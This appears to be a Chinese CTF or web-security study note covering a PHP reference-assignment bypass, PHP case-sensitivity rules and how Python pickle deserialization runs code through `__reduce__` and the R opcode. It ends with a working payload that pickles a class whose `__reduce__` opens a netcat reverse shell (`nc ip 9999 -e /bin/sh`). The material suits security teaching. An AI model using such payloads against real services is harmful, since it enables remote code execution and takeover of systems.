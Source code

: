 只要使`$password=&$token`即可

### php特性

变量名区分大小写
常量名区分大小写
数组索引 (键名) 区分大小写
函数名, 方法名, 类名不区分大小写
魔术常量不区分大小写 (以双下划线开头和结尾的常量)
`NULL TRUE FALSE` 不区分大小写
强制类型转换不区分大小写 (在变量前面加上 (type))

### Python反序列化

#### pickle

与PHP类似，python也有序列化功能以长期储存内存中的数据。pickle是python下的序列化与反序列化包。
python有另一个更原始的序列化包marshal，现在开发时一般使用pickle。
与json相比，pickle以二进制储存，不易人工阅读；json可以跨语言，而pickle是Python专用的；pickle能表示python几乎所有的类型（包括自定义类型），json只能表示一部分内置类型且不能表示自定义类型。
pickle实际上可以看作一种独立的语言，通过对opcode的更改编写可以执行python代码、覆盖变量等操作。直接编写的opcode灵活性比使用pickle序列化生成的代码更高，有的代码不能通过pickle序列化得到（pickle解析能力大于pickle生成能力）

#### 可序列化的对象

* None 、 True 和 False
* 整数、浮点数、复数
* str、byte、bytearray
* 只包含可封存对象的集合，包括 tuple、list、set 和 dict
* 定义在模块最外层的函数（使用 def 定义，lambda 函数则不可以）
* 定义在模块最外层的内置函数
* 定义在模块最外层的类
* `__dict__` 属性值或 `__getstate__()` 函数的返回值可以被序列化的类(详见官方文档的Pickling Class Instances)

`object.__reduce__()` 函数
在开发时，可以通过重写类的 `object.__reduce__()` 函数，使之在被实例化时按照重写的方式进行。具体而言，python要求 `object.__reduce__()` 返回一个 `(callable, ([para1,para2...])[,...])` 的元组，每当该类的对象被`unpickle`时，该`callable`就会被调用以生成对象（该`callable`其实是构造函数）。
在`pickle`的`opcode`中， `R` 的作用与 `object.__reduce__()` 关系密切：选择栈上的第一个对象作为函数、第二个对象作为参数（第二个对象必须为元组），然后调用该函数。其实 `R` 正好对应 `object.__reduce__()` 函数， `object.__reduce__()`的返回值会作为 `R` 的作用对象，当包含该函数的对象被pickle序列化时，得到的字符串是包含了 `R` 的。

#### 利用

```py
import base64
import pickle


class shell(object):
    def __reduce__(self):
        return (eval, ("__import__('os').popen('nc ip 9999 -e /bin/sh')",))

k = shell()
print(base64.b64encode(pickle.dumps(k)))
```
